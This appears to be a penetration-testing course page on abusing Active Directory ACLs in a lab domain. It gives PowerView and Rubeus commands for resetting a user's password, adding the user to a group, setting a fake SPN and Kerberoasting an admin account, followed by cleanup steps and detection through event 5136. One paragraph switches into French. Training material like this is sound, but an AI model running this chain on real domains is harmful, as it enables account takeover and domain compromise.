


# ACL Abuse Tactics (+Remediation)

***

### <mark style="color:red;">Abusing ACLs</mark>

We know that we can use this access to kick off an attack chain that will result in us taking control of the `adunn` user who can perform the DCSync attack, which would give us full control of the domain by allowing us to retrieve the NTLM password hashes for all users in the domain and escalate privileges to Domain/Enterprise Admin and even achieve persistence. To perform the attack chain, we have to do the following:

1. Use the `wley` user to change the password for the `damundsen` user
2. Authenticate as the `damundsen` user and leverage `GenericWrite` rights to add a user that we control to the `Help Desk Level 1` group
3. Take advantage of nested group membership in the `Information Technology` group and leverage `GenericAll` rights to take control of the `adunn` user

**So, first, we must authenticate as `wley` and force change the password of the user `damundsen`.** .

<mark style="color:green;">**Creating a PSCredential Object**</mark>


```powershell-session
PS C:\htb> $SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
PS C:\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
```


Next, we must create a [SecureString object](https://docs.microsoft.com/en-us/dotnet/api/system.security.securestring?view=net-6.0) which represents the password we want to set for the target user `damundsen`.

<mark style="color:green;">**Creating a SecureString Object**</mark>


```powershell-session
PS C:\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```


<mark style="color:green;">**Changing the User's Password**</mark>


```powershell-session
PS C:\htb> cd C:\Tools\
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```


<mark style="color:green;">**Creating a SecureString Object using damundsen**</mark>


```powershell-session
PS C:\htb> $SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS C:\htb> $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```


Next, we can use the [Add-DomainGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/) function to add ourselves to the target group. We can first confirm that our user is not a member of the target group. This could also be done from a Linux host using the `pth-toolkit`.

<mark style="color:green;">**Adding damundsen to the Help Desk Level 1 Group**</mark>


```powershell-session
PS C:\htb> Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members
```



```powershell-session
PS C:\htb> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
```


A quick check shows that our addition to the group was successful.

<mark style="color:green;">**Confirming damundsen was Added to the Group**</mark>

```powershell-session
PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```

Nous avons obtenu des droits sur le compte **adunn** grâce à notre appartenance à un nouveau groupe. Supposons que notre client nous autorise à changer le mot de passe de **damundsen**, mais que **adunn**, un compte administrateur, ne puisse pas être modifié directement. Comme nous avons le droit **GenericAll** sur **adunn**, nous pouvons aller plus loin et lancer une attaque **Kerberoasting ciblée**. Pour cela, nous modifions l’attribut **servicePrincipalName (SPN)** du compte **adunn** afin de créer un **faux SPN**. Ensuite, nous demandons un **ticket Kerberos (TGS)** pour ce SPN, ce qui nous permet de récupérer un **hash** chiffré que nous tenterons de **craquer avec Hashcat** hors ligne. Pour réussir, nous devons être authentifiés comme membre du groupe **Information Technology**. Comme nous avons ajouté **damundsen** au groupe **Help Desk Level 1**, nous avons hérité des droits nécessaires via l'**appartenance imbriquée aux groupes**. Nous pouvons alors utiliser **Set-DomainObject** pour modifier l’attribut SPN ou **targetedKerberoast** depuis un système Linux, qui automatisera l’attaque en créant un SPN temporaire, récupérant le hash, puis supprimant le SPN.

<mark style="color:green;">**Creating a Fake SPN**</mark>


```powershell-session
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```


If this worked, we should be able to Kerberoast the user using any number of methods and obtain the hash for offline cracking. Let's do this with Rubeus.

<mark style="color:green;">**Kerberoasting with Rubeus**</mark>


```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /user:adunn /nowrap

```


***

### <mark style="color:red;">Cleanup</mark>

In terms of cleanup, there are a few things we need to do:

1. Remove the fake SPN we created on the `adunn` user.
2. Remove the `damundsen` user from the `Help Desk Level 1` group
3. Set the password for the `damundsen` user back to its original value (if we know it) or have our client set it/alert the user

<mark style="color:orange;">**Removing the Fake SPN from adunn's Account**</mark>


```powershell-session
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
```


Next, we'll remove the user from the group using the `Remove-DomainGroupMember` function.

<mark style="color:orange;">**Removing damundsen from the Help Desk Level 1 Group**</mark>


```powershell-session
PS C:\htb> Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```


We can confirm the user was indeed removed:

<mark style="color:orange;">**Confirming damundsen was Removed from the Group**</mark>


```powershell-session
PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
```


***

### <mark style="color:red;">Detection and Remediation</mark>

A few recommendations around ACLs include:

1. `Auditing for and removing dangerous ACLs`

Organizations should have regular AD audits performed but also train internal staff to run tools such as BloodHound and identify potentially dangerous ACLs that can be removed.

2. `Monitor group membership`

Visibility into important groups is paramount. All high-impact groups in the domain should be monitored to alert IT staff of changes that could be indicative of an ACL attack chain.

3. `Audit and monitor for ACL changes`

Enabling the [Advanced Security Audit Policy](https://docs.microsoft.com/en-us/archive/blogs/canitpro/step-by-step-enabling-advanced-security-audit-policy-via-ds-access) can help in detecting unwanted changes, especially [Event ID 5136: A directory service object was modified](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-5136) which would indicate that the domain object was modified, which could be indicative of an ACL attack. If we look at the event log after modifying the ACL of the domain object, we will see some event ID `5136` created:

**Viewing Event ID 5136**

<figure><figcaption></figcaption></figure>

If we check out the `Details` tab, we can see that the pertinent information is written in [Security Descriptor Definition Language (SDDL)](https://docs.microsoft.com/en-us/windows/win32/secauthz/security-descriptor-definition-language) which is not human readable.

**Viewing Associated SDDL**

<figure><figcaption></figcaption></figure>

We can use the [ConvertFrom-SddlString cmdlet](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/convertfrom-sddlstring?view=powershell-7.2) to convert this to a readable format.

<mark style="color:green;">**Converting the SDDL String into a Readable Format**</mark>


```powershell-session
PS C:\htb> ConvertFrom-SddlString "O:BAG:BAD:AI(D)" 

Owner            : BUILTIN\Administrators
Group            : BUILTIN\Administrators
DiscretionaryAcl : {Everyone: AccessDenied (WriteData), Everyone: AccessAllowed (WriteExtendedAttributes), NT
                   AUTHORITY\ANONYMOUS LOGON: AccessAllowed (CreateDirectories, GenericExecute, ReadPermissions,
                   Traverse, WriteExtendedAttributes), NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERS: AccessAllowed
                   (CreateDirectories, GenericExecute, GenericRead, ReadAttributes, ReadPermissions,
                   WriteExtendedAttributes)...}
SystemAcl        : {Everyone: SystemAudit SuccessfulAccess (ChangePermissions, TakeOwnership, Traverse),
                   BUILTIN\Administrators: SystemAudit SuccessfulAccess (WriteAttributes), INLANEFREIGHT\Domain Users:
                   SystemAudit SuccessfulAccess (WriteAttributes), Everyone: SystemAudit SuccessfulAccess
                   (Traverse)...}
RawDescriptor    : System.Security.AccessControl.CommonSecurityDescriptor
```


If we choose to filter on the `DiscretionaryAcl` property, we can see that the modification was likely giving the `mrb3n` user `GenericWrite` privileges over the domain object itself, which could be indicative of an attack attempt.


```powershell-session
PS C:\htb> ConvertFrom-SddlString "O:BAG:BAD:AI(D;;DC;;;WD)(OA;CI;CR;aD)" |select -ExpandProperty DiscretionaryAcl

Everyone: AccessDenied (WriteData)
Everyone: AccessAllowed (WriteExtendedAttributes)
NT AUTHORITY\ANONYMOUS LOGON: AccessAllowed (CreateDirectories, GenericExecute, ReadPermissions, Traverse, WriteExtendedAttributes)
NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERS: AccessAllowed (CreateDirectories, GenericExecute, GenericRead, ReadAttributes, ReadPermissions, WriteExtendedAttributes)
NT AUTHORITY\Authenticated Users: AccessAllowed (CreateDirectories, GenericExecute, GenericRead, ReadAttributes, ReadPermissions, WriteExtendedAttributes)
NT AUTHORITY\SYSTEM: AccessAllowed (ChangePermissions, CreateDirectories, Delete, DeleteSubdirectoriesAndFiles, ExecuteKey, FullControl, GenericAll, GenericExecute, GenericRead, GenericWrite, ListDirectory, Modify, Read, ReadAndExecute, ReadAttributes, ReadExtendedAttributes, ReadPermissions, TakeOwnership, Traverse, Write, WriteAttributes, WriteData, WriteExtendedAttributes, WriteKey)
BUILTIN\Administrators: AccessAllowed (ChangePermissions, CreateDirectories, Delete, ExecuteKey, GenericExecute, GenericRead, GenericWrite, ListDirectory, Read, ReadAndExecute, ReadAttributes, ReadExtendedAttributes, ReadPermissions, TakeOwnership, Traverse, WriteAttributes, WriteExtendedAttributes)
BUILTIN\Pre-Windows 2000 Compatible Access: AccessAllowed (CreateDirectories, GenericExecute, ReadPermissions, WriteExtendedAttributes)
INLANEFREIGHT\Domain Admins: AccessAllowed (ChangePermissions, CreateDirectories, ExecuteKey, GenericExecute, GenericRead, GenericWrite, ListDirectory, Read, ReadAndExecute, ReadAttributes, ReadExtendedAttributes, ReadPermissions, TakeOwnership, Traverse, WriteAttributes, WriteExtendedAttributes)
INLANEFREIGHT\Enterprise Admins: AccessAllowed (ChangePermissions, CreateDirectories, Delete, DeleteSubdirectoriesAndFiles, ExecuteKey, FullControl, GenericAll, GenericExecute, GenericRead, GenericWrite, ListDirectory, Modify, Read, ReadAndExecute, ReadAttributes, ReadExtendedAttributes, ReadPermissions, TakeOwnership, Traverse, Write, WriteAttributes, WriteData, WriteExtendedAttributes, WriteKey)
INLANEFREIGHT\Organization Management: AccessAllowed (CreateDirectories, GenericExecute, GenericRead, ReadAttributes, ReadPermissions, WriteExtendedAttributes)
INLANEFREIGHT\Exchange Trusted Subsystem: AccessAllowed (CreateDirectories, GenericExecute, GenericRead, ReadAttributes, ReadPermissions, WriteExtendedAttributes)
INLANEFREIGHT\mrb3n: AccessAllowed (CreateDirectories, GenericExecute, GenericWrite, ReadExtendedAttributes, ReadPermissions, Traverse, WriteExtendedAttributes)
```


There are many tools out there that can be used to help monitor AD. These tools, when used in conjunction with a highly mature AD secure posture, and combined with built-in tools such as the various ways we can monitor for and alert on events in Active Directory, can help to detect these types of attacks and prevent them from going any further.
